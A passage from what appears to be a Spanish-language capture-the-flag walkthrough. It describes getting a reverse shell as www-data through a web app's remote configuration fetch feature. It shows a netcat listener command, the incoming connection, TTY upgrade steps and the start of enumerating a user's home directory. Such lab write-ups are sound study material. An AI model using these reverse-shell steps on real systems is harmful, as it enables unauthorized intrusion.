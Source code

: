 ```
Configuración 'shell.sh' aplicada con éxito.
```

Le damos al boton de `Apply Configuration` y ahora veremos que se creo correctamente, por lo que seguidamente antes de ejecutarlo en la opcion de abajo estaremos a la escucha.

```shell
nc -lvnp <PORT>
```

Y nos vamos a la pagina web, en la opcion de `Execute Remote Configuration` ponemos el nombre del archivo en mi caso `shell.sh` y le damos al boton `Fetch Configuration`, ahora si nos vamos a donde teniamos la escucha veremos que se nos creo una shell con el usuario `www-data`.

Info:

```
connect to [192.168.5.145] from (UNKNOWN) [172.20.0.2] 54068
sh: 0: can't access tty; job control turned off
$
```

Ahora sanitizaremos la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user codebad

Si nos vamos a la `/home` del usuario `codebad` veremos los siguiente.

```
total 44
drwxr-xr-x 3 codebad  codebad   4096 Aug 29 13:22 .
drwxr-xr-x 1 root     root      4096 Aug 29 11:41 ..
-rw------- 1 codebad  codebad      5 Aug 29 13:22 .bash_history
-rw-r--r-- 1 codebad  codebad    220 Aug 29 11:39 .bash_logout
-rw-r--r-- 1 codebad  codebad   3771 Aug 29 11:39 .bashrc
-rw-r--r-- 1 codebad  codebad    807 Aug 29 11:39 .profile
-rwxr-xr-x 1 metadata metadata 16176 Aug 29 12:16 code
drwxr-xr-x 2 root     root      4096 Aug 29 11:49 secret
```
